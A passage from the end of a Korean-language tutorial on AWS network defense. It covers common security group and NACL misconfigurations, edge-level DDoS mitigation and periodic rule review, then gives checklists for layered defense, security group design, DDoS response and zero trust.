# ❌ 모든 SG inbound에 0.0.0.0/0 허용
# → 모든 곳에서 접근 가능 = 방화벽 의미 없음

# ✅ 필요한 소스만 허용
# ALB SG만 0.0.0.0/0:443 허용
# 나머지는 SG 참조 또는 특정 CIDR로 제한
```

### 3. NACL의 Stateless를 잊기

```bash
# ❌ NACL 인바운드만 설정하고 아웃바운드를 안 열음
# → "SG에서는 되는데 NACL 때문에 안 돼요!"

# ✅ NACL은 stateless! 아웃바운드에 임시 포트(1024-65535) 허용 필수
# Outbound: ALLOW TCP 1024-65535 0.0.0.0/0
```

### 4. DDoS 방어를 서버 레벨에서만 시도

```bash
# ❌ iptables로만 DDoS 방어
# → 서버에 도달하기 전에 네트워크가 포화됨!

# ✅ 앞단(CDN, CloudFront, Cloudflare)에서 흡수
# → 서버에는 정상 트래픽만 도달
# → 서버 레벨 방어는 보조
```

### 5. 보안 규칙을 한 번 만들고 방치

```bash
# ❌ 1년 전에 만든 SG 규칙 그대로
# → 퇴사자 IP가 아직 허용, 안 쓰는 포트가 열려있음

# ✅ 정기 보안 점검 (분기별)
# → 불필요한 SG 규칙 제거
# → WAF 규칙 업데이트
# → 접근 로그 분석
# → 취약점 스캐닝
```

---

## 📝 정리

### 방어 계층 빠른 참조

```
1단계 (Edge):     CDN + DDoS 방어 (CloudFront, Cloudflare, Shield)
2단계 (App):      WAF (SQL Injection, XSS, Bot 차단)
3단계 (Network):  SG + NACL + iptables (IP/포트 제어)
4단계 (App):      인증/인가 + Rate Limiting + 입력 검증
```

### Security Group 설계 원칙

```
✅ 서비스별 SG 분리
✅ SG 참조로 서비스 간 최소 권한 (IP 대신 SG ID)
✅ ALB만 0.0.0.0/0 허용, 나머지는 제한
✅ SSH는 bastion SG에서만 (또는 SSM으로 대체)
✅ DB는 앱 서버 SG에서만
```

### DDoS 대응 체크리스트

```
✅ CDN(CloudFront/Cloudflare) 앞단 배치
✅ AWS Shield Standard (자동 적용)
✅ WAF Rate Limiting 설정
✅ SYN cookies + backlog 커널 튜닝
✅ Auto Scaling 설정
✅ 긴급 IP 차단 절차 문서화
✅ 공격 시 Slack/PagerDuty 알림
```

### Zero Trust 체크리스트

```
✅ VPN → SSM Session Manager (또는 ZTNA)
✅ SG를 서비스별 최소 권한으로
✅ IAM Role 기반 (키 대신)
✅ 서비스 간 mTLS (Istio)
✅ SSO + MFA 필수
✅ 모든 접근 로깅 + 모니터링
```

---

## 🔗 다음 강의

다음은 **[10-vpn](./10-vpn)** — VPN / 터널링 (IPsec / WireGuard / OpenVPN / Direct Connect) 이에요.

사무실에서 AWS VPC에 안전하게 접근하려면? 온프레미스와 클라우드를 연결하려면? VPN의 원리와 실무 설정을 배워볼게요.
